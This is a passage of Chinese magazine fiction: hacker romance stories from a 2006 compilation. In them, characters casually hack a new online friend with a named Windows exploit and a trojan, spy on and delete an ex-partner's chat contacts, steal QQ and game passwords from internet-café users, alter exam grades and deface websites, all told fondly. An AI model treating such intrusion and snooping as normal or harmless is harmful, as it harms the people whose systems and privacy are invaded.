# 黑客X档案合订本2006年（下）第二部分

---

前她告诉我她喜欢和我一起听海的声音，喜欢和我一起在网络中那样单纯的快乐。在乱蓬蓬的头发里，仿佛深幽啜泣嘶咬着。如果可以，她希望留在海边研究那些软件。我什么也没说，拎着她的行李走在前面。我知道走在后面的她哭了。我们不会失去对方的联系，因为我们维系一起的不光是感觉，还有那些程序和软件的见证。回了四川，她经常会问我，可以在一起住在海边吗？这样的问题不知问了我多少遍。我的回答从来都是“给我时间考虑”。这样的敷衍持续了半年多。这一次也同样不会例外，但是不一样的是“手中流沙”很快回复我说不想等了……

## 网络回忆

### 海边一粒沙



05年的夏天是闷热的，就算是窗外有缕缕风流进，也带着阵阵热浪。正准备午觉时QQ上有了消息。点击一看居然是位MM，本来不想逗留太久在这上面，刚要拒绝，但是看到她资料上的一句话却触动了东的心弦：“花错了盛开时节，余下的只有灰烬。”简单的几个字就决定东通过了她的验证，然后就是关机，睡觉。

醒来时已经傍晚5点多了，东双脚搭在电脑桌上，嘴巴里叼着烟，一副迷醉不醒的样子，双眼紧盯着电脑上的一个Perl脚本程序，那是前几天刚刚公布的一个针对UNIX系统imapd的远程攻击程序……东的大脑飞快地转动着，试图找出更有效的方法来解决返回地址的问题。

正当东看得入迷的时候，一个QQ的请求视频窗口突然弹了出来，“真该死”，东咒骂着，他最讨厌这种打扰了。东不断烦躁地敲击着键盘，直到又看到了熟悉的那句话“花错了盛开时节，余下的只有灰烬”，才隐约想起这是自己中午时随手加的那个MM。

灰烬打了一个笑脸过来：“你好大虾，我很崇拜你。”东一边扫描着对方的IP地址，一边漫不经心地回答道：“我不是大虾，是螃蟹。”灰烬回复得很快：“为什么网页打不开啊？总显示本地时间错误。”很快，X-scan的扫描结果就出来了，密码居然为空口令，还有MS04-011、MS04-007等漏洞……

这个问题让东哭笑不得，本地时间居然被说成是东西。但是出于对MM的友善，东还是耐着性子说：“你在‘程序’里找。”灰烬好奇地问：“程序在哪里找。”东差点连鼻子都气歪了：“在桌面的左下方，‘开始’里面！”

此时，东已经利用对方存在的远程溢出漏洞进入了她的电脑里，正在上传一个配置好的木马。可就在木马快要传完的时候，对方的电脑就像死机似的没有任何反应了，连对方的QQ头像也暗了下去。东有些烦躁。片刻后灰烬的头像又亮了起来，发过来一个哭的QQ表情：“我按开始了，双击了两下，按了个回车，电脑就自动关机了。”

哈哈！这个笨笨的MM把东给气乐了。这次，东很顺利地就上传了木马。灰烬的电脑非常简单，桌面上什么都没有，一个游戏也没有，不过她QQ上的好友可能多些。使东更愉悦的是，对方QQ上有一个叫做“伟大的英雄”的组，而且里面只有东一个人。灰烬喊了起来：“哎呀！我的鼠标它居然自己会动了，怎么回事啊！”东打过两个字“呵呵”，这个可爱的笨笨居然连自己被别人控制了都不知道。

### 《朦隐侧旁》

东故意卖了个关子：“你先告诉我，我就告诉你。”

灰烬这才说：“有一家网络分公司的老板开车撞人后逃逸了，后来有位有正义感的黑客知道了这件事，他入侵了那家公司电脑，宣称如果不给受害者一个公道就公开所有文件并彻底破坏数据库……最后只按要求让老板赔偿受害者并支付监控费用，战场般的网络恢复平静，那位黑客也消失了。”

东有些惊诧，追问：“你是怎么知道这些的？”灰烬笑说这不重要，并追问东如何找到她。东承认自己刚才入侵并控制了灰烬的电脑。接着灰烬一口气让他调本地时间、更新杀毒软件、安装防火墙等，东被折腾得头大，只能苦笑配合。

两人开始在网上频繁聊天、斗嘴。灰烬提出一堆“条款”：不许不理她、不许只发敷衍词、不许放鸽子、视频时长要达标、违约罚款与“监禁”之类……东哭笑不得却也慢慢习惯。之后东在寒风中陪她“散步”、每天被她催促上线，关系在吵闹中升温。

灰烬曾说自己有男友，东半信半疑。直到某天视频时，灰烬房间闯入一名男子并大声斥责，东才意识到她现实处境复杂。争执后东彻夜未眠。次日他再次找她，灰烬说：“烟花再美，也只是片刻的温存，留下的只是灰烬。”

东虽然不太明白“灰烬”的意思，但仍继续和她聊天。她经常发来伤感的Flash与只言片语。06年4月某天，东上线后看到留言“爱你，吾心永恒”，莫名惶恐。

不久灰烬忽然“消失”。东觉得生活缺了什么，辗转在网上寻找。一个礼拜后，他在灰烬常去论坛看到公告：站友“灰烬”于本月19日离世，深切哀悼。东呆坐很久，眼前只剩灰烬留下的最后文字。

> 落叶追风只为了那片刻的温柔，  
> 流星划过天际只想感受短暂的幸福。  
>   
> 我从不哭泣，  
> 是因为距离本就遥远，  
> 牵不到你的手，  
> 我不遗憾。  
>   
> 我不说爱你，  
> 因为我如天边流星，  
> 有一天会飞翔，  
> 注定的陨落。  
>   
> 但，  
> 爱你，  
> 吾心永恒。

东泪水狂涌，不停喃喃地说：“爱你，吾心永恒。”



## 空的已满，爱情连接错误

### 海边一粒沙

当音乐响起的时候，鱼闭上了眼睛。似乎在静静地思考着什么，手里的烟雾慢慢地缠绕、缠绕，缠绕着大片的思绪。听着音乐的时候，鱼在网络上总是变得很安静，也许某一句歌词、某一个旋律刺到他的心了吧，让他痛得无法去做任何事。

不知道这是第几次跟他说分手了。鱼知道自己除了电脑和云外什么也没有。本来自己拥有的就那么少，又怎么舍得放开云的手呢？所以鱼不肯说放弃。就算云再怎么无理取闹地大发雷霆，鱼都可以忍耐。

但是云总是离开鱼。鱼不知道为什么，在一道道无休止的追问后，云回答说：“我想要自由。天空般的自由，只有在自由的天空里，云才是快乐的！我曾经希望你会是我的天空，可你不是，你只是鱼，活在电脑那小小的四角屏幕里的鱼。”鱼怎么可能死心。鱼轻而易举地入侵了云的电脑。他希望能在跟云聊天的那些朋友的只言片语中找到云离开他的原因。他觉得这应该不算是纠缠，而是难以割舍。

那些暧昧的话在云的指尖中跳动出来的时候，鱼很伤心。云可以相信很多人，也可以因为谁的心情不愉快而赌气伤心。唯独他是云的例外。曾经所有的爱和所有的美好，像是扶不起的记忆，在瞬间坍塌，找不到一点痕迹，留下来的只是大片大片的灰烬。鱼是平凡的，鱼也会因为最爱的人跟其他的人谈情说爱而愤怒。所以鱼删除了云QQ中那些跟她聊得暧昧的人的QQ号码。他知道这样做是不道德的，但是为了爱，为了挽留快要流逝的东西，他宁愿这么做。

当云发现丢失了QQ中的好友，当然也明白这是谁的杰作。云的愤怒，鱼的沉默，让两个人的关系更加恶化，争吵是他们的必修课，那些难听的话像针一样刺向两个人的心里。有鲜血的流淌，充满了心上。云充满讥讽地对鱼挑战地说：“有本事就去黑了summer”。

鱼冷笑着，summer是网络中一个非常有名气的黑客高手。没想到云居然跟他也有联系。面对云的挑战鱼怎么能不接受。鱼不明白这么做到底是对还是错，是争取还是再次葬送了感情。鱼哭了，这是他记忆中的唯一一次哭泣。那一天他哭得天昏地暗。男人的眼泪有的时候是绝望中的重生。鱼不想让云看扁了自己，也想通过一切挽回曾经的感情。

鱼独自地从昏暗的房间走出来，去接触阳光，去summer偌大的公司去看看。也许鱼已经做好打败他的一切准备了。如果这样做可以挽回一切的话。

鱼来到summer的公司门前，看了看他们的招聘广告，没有丝毫的犹豫就走了进去。鱼很有天赋，也有过硬的网络技术。而且summer也是个伯乐，他懂得外表冷漠、眼眸中有着忧伤的鱼是一个千里马。他喜欢这匹横空出世的黑马，所以他给鱼高薪和优厚的待遇。

鱼可以感觉到summer是个和他同样孤独的人，虽然他平时对下属很和蔼，给人的感觉是那样的阳光，可是在他的眼眸深处却时常有孤独出没。也许只有孤独的人才能看透同样变寂寞的迹象。summer身边的女朋友很多，也会和很多朋友聚会来打消寂寞的时间。但是summer从心底里还是不快乐的。

Summer对鱼真的很好，刚刚进公司半年，年轻轻的鱼就被summer提拔为技术主管了。每次有什么技术上的知识，summer都会通过QQ传给鱼。他说鱼和他一样都是一阵晚风里的落叶。而在平时上班的时候summer都会通过QQ和鱼聊上几句，问问鱼的烦恼和家乡，问问鱼心里喜欢的女人是什么样子，问问鱼每天都吃点什么，需要多注意身体。当两个男人用心交谈的时候，那是友情升华的时候。鱼发现他渐渐地把自己来公司的目的搁浅了，也开始把自己最大的敌人当成了朋友。他和summer在一起的时候，竟然忘记了想云。鱼有些怀疑，为了深爱的人而去伤害一个对自己很好的人，是不是很坏。虽然他在那时的技术对summer还构不成任何的威胁，但是鱼对自己有这样的想法和意识都觉得很惭愧。

那是五月，一切都开始在冬天里慢慢复苏的时候，summer的公司开始面对了很大的危机，那些软件一次次地被否定。如果到时间还没有办法及时赶出来，对公司来讲将是巨大的损失。一向开朗的summer眉头间渐渐挂上了一丝愁容。人总是在脆弱的时候最容易被击败的，但是鱼却放弃了自己心里的想法。如果在这时候他给summer沉重的一击，他会连自己都瞧不起自己的。所以当大家都议论纷纷准备跳槽的时候，而鱼却在抓紧时间为软件的开发做最后的努力。在那些不分黑夜白天、不洗脸不刷牙的日子里，公司总有两个男人不分昼夜地忙碌着，不知道香烟燃尽了多少，只有那些可恶的蚊子在不停地骚扰。桌子上的饭盒清空了一盘又一盘。剩下多少灰烬，没有人知道。软件还是被测试为失败，当summer靠在椅子上叹了一口气，准备放弃的时候，鱼告诉他，当什么都还没结束的时候谁也没有资格说放弃。

Summer看着执着的鱼，不知道年轻的他是幼稚还是骨子里本来就透着一种坚强的睿智，鱼不管summer怎么看他，他依然不肯离开地守在电脑前，他相信没到最后，机会和成功的几率还在。

当看着电脑上出现一句测试成功的时候，鱼的嘴角轻轻地上扬着。Summer不相信已经被判了死刑的软件和公司可以因为一个人的执着而死灰复燃。Summer不知道该怎么感谢鱼。就是这个名不见经传的年轻人居然可以开发一个困难的软件，创造一个不可能的奇迹。Summer把这个软件以鱼的名字命名，是为了告诫自己有鱼这样忠实的兄弟。

鱼觉得自己应该放弃原来的计划，summer是一个很好的人。两个人度过了那么艰难的时光，还有什么可以阻隔两个人呢？然而一个人，那就是云。summer开始对鱼断断续续地讲述一个女人，她的温柔，她的善解人意，她美丽的容貌，还有近距离让人无法自己的呼吸。summer告诉鱼这个女人让他死去的心再次跳动，就像是初恋时有青草般的味道，summer还告诉鱼这个女人叫做——云！

鱼的眼睛里有丝悲哀轻轻地闪过，两个要好的兄弟爱上同一个女人算不算是一种嘲笑？鱼不知道。只是看到summer在谈论云的时候眼睛里有许多的快乐在跳动，但是鱼的内心却是如此的疼痛，像是被刀狠狠地刺在心脏一般。鱼用愤怒的眼神看着summer，像一把火焰在燃烧，烧掉了那颗已经安稳的心，再次浮现。

当鱼看到那个叫云的女人，像只温柔的猫一样在公司楼下等summer的时候，一只杯子在鱼的脚下残忍地破碎。鱼觉得还是应该在云的面前表现自己真的能超越summer。虽然他也觉得这样的表现很幼稚无知，但是他明白自己更加无助，无助到了有些疯狂。

那颗沉寂的心再次骚动了起来，鱼左手握着冰冷的右手。

Summer公司的网站被黑了，瞬间计算机业沸腾了起来。那些曾经辉煌的网站只剩下一片空白。上面只有几个字：云，我做到了。可是你能回到我的身边吗？

summer百思不得其解的时候，鱼敲开了他的门，呈给了summer两封信，一封是辞呈，一封是道歉信。summer沉默了良久后告诉鱼，如果有些事情已经过去了，就不要再去追忆。但是如果你觉得追寻的是一份已经久远了的回忆或者过去，你所做的一切将是徒劳的。我们是兄弟，留在我的身边，无论你做过什么。

但是鱼还是走了，他不想看到曾经最爱的人挽着自己最好的朋友走进婚姻的殿堂，而他却只能作为一个旁观者，任曾经爱过的、珍惜过的、拥有过的随风而去。在他临走的时候，恢复了summer网站的数据，算是贺礼吧！

## 轮回｜绝回轮回

轮回六道，  
是心灵在沉醉，  
经过洗礼，  
人才会成长。

### 天界 相逢是美好未来的开始。

“小雨是个好女孩！”我有很多次是这么告诉她的。

我所在的城市并不大，四周都是围墙，围墙外面是黄沙尘土漫天。古色古香的城镇竟然也有中国电信的存在，不能不说是种奇迹。网络的繁荣和发展在这里仿佛就是一夜间的事情。前几年还是经营惨淡的主网，现在已经拥挤到连换线一小时。有时候我都为那些网吧老板担忧：除了电费，混个温饱，他们还能剩下什么？

学生放学后一等奖地冲进网吧。没办法，这种最便宜的消费还是很诱惑人的。毕竟一个包子五毛，一瓶矿泉水也要一块。玩的话，在哪都没网吧便宜。文化局的老爷们因为已经伺候到位，所以根本不用担心什么“未成年禁止入内”的条例。家长？那更是不会阻拦的。比起回家看个普通的电视，不如让他们出来玩玩游戏。孩子普遍有逆反心理，你让他打游戏，他偏不干要看电视。连续剧的诱惑已经超越了网游，在我们这应该说是个奇迹。网吧里的少爷小姐们清一色地看网络电视，稚嫩的眼睛中透着喜悦，老板的眼睛同样也透着喜悦。

### 人界 平凡的是人类，因为生活就是一天一天地在前进。

我认识小雨也是在这么一间网吧。规模一般，重在价格便宜且只收八毛。她是个难得的好女孩，只上网校做题。嗯，其实我并不大，不过她是学生而我是网管。

我和每个正常的男人一样关注着来来往往的女孩子，年轻的、年长的、漂亮的、不漂亮的，然后拿这些做谈资和经常来玩的阿木聊聊。阿木很高，却不太胖，眼神很精明，实际上却相反。所以他撩过不少的女朋友，想找着一个跟他长久过。我指着小雨对他说，那个女孩和你一样属于沉默型的，可能适合你。他傻笑，然后说我试试？我点点头。

结果其实早已注定是失败，不过他问到了小雨的名字。然后因为一些乱七八糟的原因，渐渐地我们几个就成了好朋友。有时候下班早了我会和阿木、小雨一起去他们学校打篮球。当然我很菜，一般情况下，我看他们打，而我打的时候他们吃饭。

阿木闲了会去写点程序赚点泡妞活动经费。他也是个好孩子，从不赖拖，该几天完成就几天。所以经常和他打交道的老板也愿意把程序任务交给他来完成。用阿木的话来说，程序员的效率就是生命。我无法理解这句话，同样也无法理解他那么粗壮的指头是怎么敲击键盘运指如飞。阿木是一个比较强的人，至少给我的感觉就是这样。

其实从头到尾都忽略了一个人，小雨。她沉默的时候很容易让我们忽略。不过她的手很白也很细，指甲修剪得很干净，不带戒指。按照常规说法，这种手才能做程序员。上网做题的时候她还是很认真的，特别是回答问答题的时候，键盘发出的声响一度让我产生幻觉。阿木面无表情地说，这种速度充其量是中速偏上……他们的认知态度让我放弃了做个死宅打字员+程序员的梦想。我只想好好地管好网吧，顺利拿上每月一发的薪水。

### 修罗界 会愤怒，会报复，会化作恶鬼扑食一切。

郁闷的事情天天都有，前些日子网吧电脑中病毒了。我累死累活地把电脑全恢复了一遍。没想到今天又开始出现问题，我直接茫然了。我让阿木给我写个东西，能百毒不侵的。他伸了一只手出来，带着鄙视的眼神。我立刻明白了，并且明确地告诉他要钱没有要命一条。他很爽快地摆摆手，然后找老板去谈这个高深的问题。

然后……我们三个人晚上大吃特吃了一顿。之后又重新做了一回系统，不过以后的问题少多了，这让我对阿木的崇拜又增加了一点。病毒这个东西很让人恼火，相对木马来说，危害严重多了。机器中了木马，如果没有人去操作，其实还算是安全的。病毒可就不一样，没事瞎折腾；你不动它，它还会自我繁殖，让你连最基本的使用都没办法完成。所以我一直喜欢用木马。

我并不排斥黑客，不过有些人黑掉整站连带删别人文件就有点过分了，这简直是巴不得让全世界都知道这台电脑被入侵了。其实以前在网吧也做过不厚道的事情，比如在自己服务器下个木马；因为某些后来居上的混小子在人侵时会暴露一些自己的重要信息，所以反让我血洗了一遍。当然一般都能捞到不少的好处，这就包括一些网游和QQ号的密码。那些小黑客不得不注册密码保护的极品号码也被一把抓了过来。还有一些跳开计费软件想免费上网的小子也是被踩蹲过的，这些都可以算是以前的快乐。不过现在他们都精明多了，所以很少再有什么搞破坏的人出现来让我娱乐了。

### 饿鬼界 欲望，活着的欲望。所作出的一切不需要理由，因为只是为了活着。

因为网吧的事情着实不多，而阿木写的程序查杀病毒的效果又很好，并且还附带一年的免费升级。所以我开始厌倦这种守株待兔挂马害人的日子，转而准备去黑站。但是老师不是阿木，却是小雨。老实说，这种发展已经超出了我的预想，让我很难接受。那天我们几个谈着黑站的事情，因为我以前没搞过，所以我想听听阿木的看法。阿木主要是做程序的和系统防御维护，对于入侵并没有什么好的方法，用一句话概括他的经典理论：防御和入侵是可以分离的，你不懂得入侵一样可以防御，只要脑子够快。

但是这种经典是建立在记性非常好的基础上的，所以并不适合我这个晚上就忘记早饭吃什么的人。对于那种只知道结果不去追求原因的认知方法我是深恶痛绝的。我拒绝了阿木的建议，小雨却笑了。

事情要在很久以前说起。小雨因为生病没有赶上某次模考的考试，导致那门成绩作废。所以考试结束后她就去黑了某个不准告诉我们名字的站点，修改了成绩。更令人吃惊的是，这并不是她第一次这么做。我想我和阿木的眼神一定是很呆滞的，毕竟这个新闻实在是太震撼了。

我们细打量着小雨，这个看起来很瘦小的女孩。浅浅的额头，刘海上几绺下垂的头发挡住了脸蛋。嗯，尽管脸蛋是圆圆的搞笑型，可是实在是难以想象，她的身体里蕴含了怎样的可能能量，才造就了这样的一个沉默的高手。“小雨，”我很诚恳地说道：“你真是个好同志啊。”

经过几个月的挂马速成班教育，我已经模糊地了解到如何在本机以外的机器上挂马了。重要的是那个人侵的过程，挂马之后的操作其实是我早已经熟悉的。这其中还有一个秘诀，电信用户扫描电信网端速度比较快，相对地网通扫网通，铁通扫铁通都是还能忍受的。不过唯一让我郁闷的就是如果是用联通的……一扫谁去？以联通的数据网络覆盖来说，扫哪个站都快不了吧？

### 畜牲界 远错了路，所以来到这轮回必经之地，一场凄美的误解。

我们的生活都很平淡，一起聊天，一起上网打游戏，闲暇之余再去黑黑站。小雨则是认真地上她的网校，认真地做题，顺便帮我和阿木解决一些黑不掉的网站。每个正常的男人都不可能只想和这个可爱的女孩子建立高尚的革命友情。如果说我对小雨一点感觉都没有那是不可能的，不过小雨给人的印象很木头，所以我不能肯定对她使的手段能奏效。阿木指着小雨对我说，那个姑娘和你一样属于沉默型的，应该更适合你。我傻笑，然后说我试试？阿木点点头。

小雨的爱好很少，上网，看书，打篮球。说话不多，但是很直接不绕弯。这种女生很少见，所以泡这样的女孩也没什么经验可谈。当然这些都不是重点，重点是我太菜了，好像配不上人家。所以我想让自己变得更孤一点，希望能弥补一点距离的空虚。小雨读的是历史系，网校则是工商企业管理。历史系向来阴盛阳衰，导致没有什么人能和她一起打篮球，阿木则是难得的能和她一对一玩得起来的对手。我决定从篮球入手，然后转向黑站，最后同时搞定两者造神小雨。

不过篮球这个东西我想大家是知道的，绝对不是一朝一夕能够搞定的东西。在我努力到第三天的时候，小雨放弃了陪练的身份，开始让阿木教育我。我没说啥，没得教就没得教，自己慢慢练呗。不过心里总觉得有些空虚和失落。之后，我的篮球技术确实有了少许提高，但是这种乌龟般的学习速度让阿木憋怒。小雨没有说什么，就那么默默地看着。这种眼神让我很泄气，我只能更加努力地打篮球、黑站。

### 地狱界 来到这里，过往的一切都需要忘记，且永不翻身。

专心致志总会成功的，所以我相信我在某个方面比小雨强了，她一定会开始注视我。然而事情的发展总是出人意料，无论我怎么努力，篮球总是那么菜；黑站的技巧上也还是比小雨低。不过我还是很努力地让她发现。我信心满满地以为自己能够在功成名就之时获得小雨的垂青。

四季交替如流矢般飞过，我一直想给她一个好印象。但是小雨却还是那样不搭理我，就和以前一样。阿木都觉得我没有戏了。不过我真的不想放弃，一方面我黑站，发现了黑站的乐趣；另一方面，不能让小雨喜欢上使得我更加失落。我发誓，我要她明白我不一样。

事情的发展并非都一直向着大家所期待的方向前进，对于我这个对爱情什么都不懂的人更是如此。有时候不是爱情不降临在你身上，而是降临在你身上的时候你把它当作空气。

小雨毕业后就和阿木去了北京，而我还在这个满是黄沙尘土的小城做着网管。仿佛和几年前一样，一点都没有改变，不过还是有些变化的。小雨临走的时候告诉我，她其实给过我机会的，她本以为我会注意到她，不过那个时候我好像对黑站和篮球更有兴趣。小雨对我的态度一直很冷淡，但并不是真的因为没有什么欲望就无所谓，而是恰恰太在乎而不知道该说什么好。我终究还是太虚伪，没有在她走的时候说一句该说的话。

### 轮回 希望，支持着轮回一世世的运转。每个人都应该永不放弃，永不后悔。

我依旧在那个小城里平静也平凡地度日。某天顺着街道回家，路过一家网吧，关闭的玻璃门表面因为里面蒸汽的缘故而显得模糊不清，似乎有个我熟悉的人正由远至近地走出来。我愣在那里，猜测那会是一个像阿木的人，还是像小雨的人？

我猜不出，不过有一点我确信，不管经过多长时间，小雨一定会回到我身旁。

当年我确实没有对她说一句话，不过……我亲吻她的额头告诉她：“我，会一直在这里等你”。



## 嗜香后的痕迹

### 海边一粒沙

我在高中的时候在校园里是一个风云人物，不是因为我的学习成绩突出，也不是因为我是一个人见人怕的厉害角色，仅是因为我被网警警告过一次。那个时候，大家都在勤奋地学习，争取考上大学，而我的事件对于沉闷的校园生活，无疑是一个热点新闻。在那个时候我成为了别人茶余饭后谈论的话题，甚至有人刻意地接近我或者逃避我。这也让我学会了如何隐藏自己，让自己慢慢沉淀下来，很快我就消失在那些莘莘学子的视线中，没有了任何风吹草动，再也没有人记得我是谁，以及我做过什么。

其实我并没有放弃什么，一直到大学毕业后我仍是一个神秘的黑客组织的成员，只不过我们只黑一些与日本有关的网站。这算不算对日本的憎恨我不知道，或许这只是潜意识里的一种厌恶。爷爷很恨日本人，也告诉我说如果不是日本人他就不会那么早地失去父亲，也不会人到四十六能娶到老婆，所以受爷爷的影响父亲也恨日本人，而我不知道是不是恨他们，只是家人曾给了我一些必须记忆的东西。记得上学那会儿，我被网警警告的时候，爸爸很生气地打了我，但是爷爷却语重心长地说：“孩子，做坏事可以，但是要用坏事对付坏人。这样吧，以后你就专门用这个什么黑客的东西对付日本人吧。”因为这句话我免受了父亲的鞭子，也因为这句话我才慢慢走入了那个神秘的黑客组织，我以“夜里哭泣的猫”的网名成了组织里的核心成员之一。这个组织没有在任何杂志或网站上留下什么痕迹，甚至没有人知道世界上还存在着我们。我们白天正常地工作和生活，晚上就开始了对日本网站的攻击。我想所谓的黑客就是穿梭在黑暗中的战士，白天戴着或者好或者坏的虚伪面具，其实真正属于我们的，是黑夜。

我就职于一家日本的电器公司，公司的产品在中国的销量是不错的，而我只是这个公司中一个平凡的职员。我负责广告和宣传设计，而且公司的网站和内部资料也是我管理的。在公司里我是一个老实、值得信任的人。因为这份工作，我可以有大部分时间挥霍在网络上。其实很有意思，我每天都在攻击日本网站，却鬼使神差地走进了这家日本公司，当时的原因只有一个，那就是工资很高。

在那段灰色的日子里是没有感情存在的，自从我在高中的那次扬名，初恋女友就特别垂青我，但后来我的“沉默”以及对于网络的迷恋，终于还是让她毅然地放弃了我。那个时候不知道是不是很难过，反正为了纪念我三年的恋情，我沉浮在烟雾缭绕的空间里整整三个月，从那时候起我便与烟为伍了，直到现在它都一直取代着初恋女友的位置。

认识雅美纯粹是出于男人的本色，我承认我和其他人是不一样的，存在也是特别的。但是在这一点上我和别人没什么分别，更何况我现在没有女友，正好需要一个人来安慰。只是渺小的我能让漂亮的女翻译雅美看上吗？我想这是一个永远没有答案的未知数，但是男人没想过出于本能的，谈不上什么龌龊，窈窕淑女，君子好逑嘛，这是很正常的。

不过丘比特再次垂青了我。我没有想到雅美会主动约我。为什么是我？一路上我一直都在想这个思绪混乱的问题。吃饭的时候我的话不多，也许是因为我根本就不知道怎么来应付这突如其来的艳福吧！我努力地在她漂亮的眼睛中挣扎，最后终于恍然大悟地想起晚上组织还有活动呢。匆匆忙忙地离开了餐厅，直接回到家里打开了电脑，幸好还没有迟到。如果说我刚才还在对扔下雅美一个人而感到内疚，对失去与雅美发生点什么的机会而感到后悔的话，那么当我打开电脑的那一刻，我彻底忘记了晚餐，忘记了雅美！

那个夜晚，时间不再流动，我的眼睛里只有幽蓝的屏幕和组织成员闪动在屏幕上的语言，我们从来不过问彼此的职业和年龄，这是一种默契，我们的语言只用在入侵和编程上。往往就是这样的沟通让我觉得彼此更加真实，在那一刻我再也分不清网络和现实了。我不知道这算不算是沉沦，对与错在人性间是很难分清的。

当我发现时间还存在的时候已经是第二天早上八点多了，我知道如果我再磨蹭一分钟的话，就会因为上班迟到而被罚款。所以我以最快的速度离开了房间，关上门的那一刻我有些恍然，似乎我又来到了另外一个世界，一个没有黑客，没有入侵与攻击的世界。在这个世界里我不是什么强者，只是一个很普通的小职员。也开始后悔，也许雅美再也不会理会我这个没有品味的傻瓜了。谁会匆忙地把一个女孩子一个人扔在餐厅，而自己却逃似地奔跑在茫茫的夜色中呢？可是女人就是一种奇怪的思维动物。早上雅美见到我的时候脸上的笑容却比以往要灿烂好几倍，不知道这公关式的笑容，算不算是一种勾引。在雅美的“勾引”下，我顺利地臣服在她的手中了。原因只有一个，在初恋女友之后和雅美之前没有女人“勾引”我，所以我就沉沦在她每晚的约会中。七月的天气有些闷热，我和雅美把汗珠撒遍了这个城市的大街小巷，我从来不知道原来爱情可以有这么神奇的力量，感觉像是在闷热的天气里，嘴巴中含了一块冰，从喉咙凉到心脏。

我从来不认为恋爱和入侵攻击有什么太大的冲突，而且我毫不遮掩地把雅美带进我的猪窝，反正将来这个窝她也会有份的。所以当她看到这个比猪窝还要杂乱的房间而皱着眉头收拾的时候，我在黑暗中偷笑。当一个女人愿意为男人打扫房间时，就说明她已经开始接受这个男人的缺点了，这样的生活真是无比惬意啊。以前在我入侵的时候连泡面都吃不上，如今我却每天都能吃到可口的饭菜，我发现我的生活已经挤进一大片的阳光，我灰色的心情也在阳光中燃烧变成灰烬，一点点地消散。

